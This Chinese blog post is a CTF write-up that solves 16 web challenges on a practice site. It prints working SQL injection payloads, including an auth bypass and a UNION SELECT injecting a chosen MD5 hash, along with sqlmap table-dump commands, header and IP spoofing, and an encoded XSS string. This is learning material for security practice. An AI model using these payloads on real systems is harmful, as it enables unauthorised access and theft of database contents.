


<!--yml
category: 未分类
date: 2022-04-26 14:30:36
-->

# 西普学院CTF习题解析——WEB(已完成16/16)_Xyntax的博客-CSDN博客

> 来源：[https://blog.csdn.net/cd_xuyue/article/details/48472077](https://blog.csdn.net/cd_xuyue/article/details/48472077)

# 源

[**西普学院实验吧**](http://www.simplexue.com/ctf/)

* * *



# 预备

* * *

## 知识点

*   **页面调试**
*   **审查元素**
*   **html js php asp sql 等语法基础**
*   **请求头 响应头**
*   **伪造IP**
*   **SQL注入基础**
*   **XSS基础**
*   **Web常用编码**
*   **“网站后台”概念及猜解、扫描技术**
*   **脑洞**

* * *

## 工具参考

*   BurpSuite
*   Firefox_firebug
*   Firefox_tamperdata
*   Firefox_modifyheader
*   御剑
*   XSSEE(编码解码器)
*   sqlmap

* * *

# 题解

注：题目顺序随机

## 1 你能跨过去吗

首先在callback的value里发现%2b,%20等，说明有编码，对其进行Unescape。可使用在线工具：[XSSEE](evilcos.me/lab/xssee/)
点击右侧的**Unescape**解码后字符串变成这样：

```
+/v+ +ADwAcwBjAHIAaQBwAHQAPgBhAGwAZQByAHQAKAAiAGsAZQB5ADoALwAlAG4AcwBmAG8AYwB1AHMAWABTAFMAdABlAHMAdAAlAC8AIgApADwALwBzAGMAcgBpAHAAdAA+AC0-
```

然后发现**+/v+**，故点击工具右侧**UTF-7**进行解码，得到：

```
+/v+ <script>alert("key:/%nsfocusXSStest%/")</script>-
```

看到key的值是：**/%nsfocusXSStest/%**
在网页提交之，得到过关key：**%nsfocusXSStest%**，提交过关

* * *

## 2 请输入密码

使用浏览器调试工具查源码（我用的firebug），直接看到js代码如下：

```
<script type="text/javascript"> document.oncontextmenu=function(){return false};

    var a,b,c,d,e,f,g;
    a = 3.14;
    b = a * 2;
    c = a + b;
    d = c / b + a;
    e = c - d * b + a;
    f = e + d /c -b * a;
    g = f * e - d + c * b + a;
    a = g * g;
    a = Math.floor(a);

    function check(){
        if(document.getElementById("txt").value==a){
            return true;
        }else{
            alert("密码错误");
            return false;
        }
    } </script>
```

由代码可知a的值就是password
在firebug右侧 **审查元素** 中直接看到a计算后值为 **424178**
登陆得到key：@#JSisagoodtool@#

* * *

## 3 进来就给你想要的

我用**御剑**直接扫了一下后台，发现几个地址，进去一看全都提示：

> 思路是对的，但是不在这儿，想想谁的权利最大

基本表明只能靠开脑洞了

于是想到除了admin之外的系统权限有哪些

试了一下Linux最高权限root，系统返回了一个404

又试了一下Windows最高权限system，页面打开可以看到**“Directory Listing Denied”**，跟之前输入root时的页面不一样，查看响应，发现目标返回了一个**304 Not Modified**，说明这个页面是作者处理过的，作者这么做必有其原因，果然查看页面源码发现key就在里面。

key:**!!!WellDoneBrother!**

* * *

## 4 猫抓老鼠

进去看到本题文字描述

> catch！catch！catch！嘿嘿，不多说了，再说剧透了

这意思不就是让抓包吗？

刚想直接上burp，思考了一下，觉得数据包中除了应用层，其他地方也没法让出题人加上key的相关信息，所以直接用firebug查看了响应头。
发现可疑信息

```
Content-Row：MTQ0MjMxMzM3Nw==
```

一看这不是base64嘛，解之，得到1442313377
填进去居然给我返回check filed！
卧槽百思不得七姐啊
后来发现 **MTQ0MjMxMzM3Nw==** 这本身就是答案（真蛋疼）
填进去就会弹出key：**#WWWnsf0cus_NET#**

* * *

## 5 Forbidden

打开网页之后看到403 Forbidden
有提示信息：Make sure you are in HongKong

想到两个我们能够控制的输入点：IP、请求头
先试试简单的修改请求头吧

查看信息：

```
Accept  
text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Encoding 
gzip, deflate

Accept-Language 
zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Connection  
keep-alive

Cookie  
隐了

DNT 
1

Host    
ctf1.simplexue.com

Referer 
http://www.simplexue.com/ctf/examctfdetail/21

User-Agent  
Mozilla/5.0 (Windows NT 5.1; rv:40.0) Gecko/20100101 Firefox/40.0
```

这里找一下能表示出“在香港”的信息的，只可能在 **Accept-Language** 里了

查一下用法，使用firefox的工具 **tamperdata** 或者 **BurpSuite** 拦截并修改请求，把 Accept-Language 中的 **zh-CN** 改成 **zh-HK** 然后提交

> 经tz同学提醒，答案区分了大小写：**zh-hk**是对的，大家注意下

OK拿到key：**123JustUserAGent**

* * *

## 6 貌似有点难

打开页面看到： **错误！你的IP不在允许列表之内！**
点击下方的 **View The Source Code**
看到代码：

```
<?php
function GetIP(){
if(!empty($_SERVER["HTTP_CLIENT_IP"]))
    $cip = $_SERVER["HTTP_CLIENT_IP"];
else if(!empty($_SERVER["HTTP_X_FORWARDED_FOR"]))
    $cip = $_SERVER["HTTP_X_FORWARDED_FOR"];
else if(!empty($_SERVER["REMOTE_ADDR"]))
    $cip = $_SERVER["REMOTE_ADDR"];
else
    $cip = "0.0.0.0";
return $cip;
}

$GetIPs = GetIP();
if ($GetIPs=="1.1.1.1"){
echo "Great! Key is *********";
}
else{
echo "错误！你的IP不在访问列表之内！";
}
?> 
```

代码的意思很明显，把IP改成1.1.1.1就搞定。

使用Firefox插件 **modify header** 伪造IP
提交请求，得到key： **http_client**

* * *

## 7 这个看起来有点简单

页面给个框，url里还给了id，一看就是注入
看起来有点简单，爆起来更简单

题目是想让大家练习一下手注？不管了直接用sqlmap爆了

[sql基本指令学习](http://blog.csdn.net/zgyulongfei/article/details/41017493)
[sql中文用户手册](http://drops.wooyun.org/tips/143)

检测注入点OK：id
当前库：my_db
表：news thiskey
看thiskey字段：k0y
爆字段得到key：**whati0MyD9ldump**

**行云流水**

* * *

## 8 这新闻不新

同样用sqlmap直接爆了出来，sqlmap基础参考上题的链接

### 检查注入点

与上题不同的是注入点不在url，而需要用post提交

使用`--data`参数：
`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1"`

### 打表

`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" --tables`

得到两个表：manager news

### 爆manager字段

`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" -T manager --columns`

| Column | Type |
| --- | --- |
| id | numeric |
| name | non-numeric |
| news | non-numeric |
| pass | non-numeric |
| title | non-numeric |

### dump内容

`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" -T manager --C "name" --dump`

| id | name | pass | news | title |
| --- | --- | --- | --- | --- |
| 1 | key | TheJiuShiKey | g\t | N\?caY)v\?84]\?e5l\x14[f |

key: **TheJiuShiKey**

* * *

## 9 程序员的问题

习惯性的用sqlmap打了一遍，没出来。

认真看了题目，**“程序员的问题”？！**
也就是说我们可以从这道题里发现程序员的问题？
在哪里发现——**代码**

在源码中看到sql语句，想到构造sql注入，查了一下资料
在user框填入构造语句:

`admin' or 1=1)#`
提交，得到key:**WWW_SIMPLEXUE_COM**

* * *

## 10 头有点大

这题还是让修改请求头
提示说的很清楚了

> Please make sure you have installed .net framework 9.9!
> 
> Make sure you are in the region of England and browsing this site with Internet Explorer

对应的三个点是.NET版本，语言/地区，浏览器标识

使用TamperData拦截并修改请求：
+ .net 9.9 -> **User-Agent** 添加`;.NET CLR 9.9`
+ England -> **Accept-Language** 修改为 `en-gb`
+ IE -> 修改**User-Agent**

然后发送请求，返回key

* * *

## 11 what a fuck!这是什么鬼东西?

这个直接把页面内容复制下来，放到调试工具的console里跑一下，就会弹出key，实际是一段js的可执行代码

* * *

## 12 PHP大法

根据提示，访问index.php.txt，看到以下代码：

```
if(eregi("hackerDJ",$_GET[id])) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
```

可以看出提交的URL里含有id=hackerDJ就能访问到key。

题中使用urldecode()对url进行解码，所以这里我们要对id=hackerDJ的部分或者全部内容编码 **两次**

这里还是使用[XSSEE](http://evilcos.me/lab/xssee/) 对字母D进行两次编码
得到: `%25%34%34`

那么完整URL是:
`http://ctf5.simplexue.com/DUTCTF/index.php?id=hacker%25%34%34J`

返回key： **DUTCTF{PHP_is_the_best_program_language}**

* * *

## 13 程序逻辑问题

提示只有两个字：**绕过**

查看源码，有个index.txt，点进去查看到php代码如下：

**我直接在代码里做注释吧**

### 代码解析1

```
 if($_POST[user] && $_POST[pass]) {

    $conn = mysql_connect("********", "*****", "********");

    mysql_select_db("phpformysql") or die("Could not select database");
    if ($conn->connect_error) {
        die("Connection failed: " . mysql_error($conn));
} 

$user = $_POST[user];

$pass = md5($_POST[pass]);
```

这一段没什么好说的，看懂就好，关键看出那个 **MD5**

### 代码解析2

```
 $sql = "select pw from php where user='$user'";

$query = mysql_query($sql);

if (!$query) {
    printf("Error: %s\n", mysql_error($conn));
    exit();
}

$row = mysql_fetch_array($query, MYSQL_ASSOC); 
```

**这段是解题关键！**

首先我们看一下这个sql语句：
`select pw from php where user='$user'`
假设原表php是这样的：

| id | user | pw | … |
| --- | --- | --- | --- |
| 0 | admin | 123 | … |
| 1 | cdxy | 456 | … |
| 2 | kkk | 789000000000 | … |

那么`where user='admin'`的意思就是只在第一行查找 **pw**

在执行完`$row = mysql_fetch_array($query, MYSQL_ASSOC);`之后
`echo row[pw]` 的结果就是表中 **pw** 的值 **123**

### 代码解析3

```
 if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
    echo "<p>Logged in! Key:************** </p>";
}

else {
    echo("<p>Log in failure!</p>");
  }
}
```

这里我们分析一下，首先要确保`row[pw]`存在。
这里**pass**的值是 **用户提交的密码经过MD5hash之后的值**
如果二者相同则拿到 **key**

### 解题过程

#### 找输入输出

user一项的输出在php代码中如下：
`$sql = "select pw from php where user='$user'";`

看起来并未对输入进行过滤，我们试着打入引号，果然报错，证明注入点可用！

#### 分析

此时用工具打表的话，意义不大，因为此题目标已经明晰，我们只要让row[pw]的值与pass经过md5之后的值相等即可。

而`$pass`经过md5之后的值是我们可以通过正常输入控制的。
同时，`row[pw]`的值是从`$sql`提取出来的

因此，目标就一句话：只要我们能够修改`$sql`的值，此题解决。

再次审视注入点：`$sql = "select pw from php where user='$user'";`
在这里我们可以利用sql语句，直接给$sql返回一个值。
也就是说，不需要访问题里的数据库，只要我们修改了`$sql`的值，此题解决

#### 构造

最终user的框里输入的内容为：
`'AND 0=1 UNION SELECT "c4ca4238a0b923820dcc509a6f75849b" #`

*   最前面的单引号：闭合原文的`where user='`
*   `AND 0=1`:为了使前面的表达式返回值为空
    从而使`select pw from php where user='' AND 0=1`这句话完全没用
*   接着我们使用`UNION SELECT "c4ca4238a0b923820dcc509a6f75849b"`，直接把MD5值作为返回值retuen给`$sql`
*   `c4ca4238a0b923820dcc509a6f75849b`这串MD5值是数字1经过MD5 hash之后的结果
*   最后的`#`用来注释掉后面没用的东西
*   最终，将`'AND 0=1 UNION SELECT "c4ca4238a0b923820dcc509a6f75849b" #`输入到user框里，将数字1输入到pass框里，登录成功。
*   key：**SimCTF{youhaocongming}**

### 重要参考

[Picto-CTF 2013](http://dook.biz/2015/02/picoctf-2013-php4-writeup/)

* * *

## 14 仔细点就行了(转)

要用到：asp基础，sql语句构造、猜解，长度限制绕过，最后还得编码，反正我是跪了

> 记一下：手动post的时候一定要编码

请看两位大神的解法:
[[漏洞分析] CTF:ASP源码审计认证绕过](http://blog.csdn.net/hitwangpeng/article/details/46788455)
[【WEB】仔细点就行了](http://www.idbg.net/archives/210)

6666666

* * *

## 15 菊花(转)

这题基于sql语句，过滤了一堆检测注入点所用的关键字。
考验了一下解题者的fuzzing和绕过。
啊咧，大牛们有没有针对sql注入好用的fuzzing的web插件或者工具呀？一定要留言赐教下呀！

当然了，这种小题对于我这么**狂霸炫酷拽**的选手，一定是…没做出来啊!

大家参考下gwenchill大牛的解题思路：
[西普部分CTF题目（web）（持续更新）](http://blog.csdn.net/gwenchill/article/details/47708223)

* * *

## 16 看起来有点难

相比之前的两个题，这题就略简单了（不知道为什么设置的分值最高）。

爆的时候注意URL中的参数不要少，同时`--data`参数也全都填上，就ok了。

`python sqlmap.py -u "http:ctf1.simplexue.com/basic/inject/index.php?admin=admin&pass=d&action=login" --data "admin=&pass=" -D test --table`

具体sqlmap操作可参考本文前几题，不赘述了。

KEY :**!@#WwwN5f0cu5coM**

* * *

# 纪念一下



西普ID：**@cdxy**
微信：DUDUBOOM
博客新地址 [cdxy.me](http://www.cdxy.me)
欢迎爱好CTF的小伙伴一起讨论。